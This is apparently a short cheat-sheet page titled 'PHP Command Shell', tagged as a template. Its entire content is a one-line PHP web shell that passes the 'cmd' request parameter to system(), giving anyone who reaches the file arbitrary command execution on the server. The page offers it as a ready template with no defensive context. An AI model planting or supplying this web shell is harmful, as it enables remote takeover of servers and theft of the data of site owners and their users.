 ```yaml
---
title: "PHP Command Shell"
date: 2024-7-8
tags: ["php", "shell", "template"]
---
```


---
### PHP Command Shell

```php
<?php system($_REQUEST['cmd']); ?>
```

<br>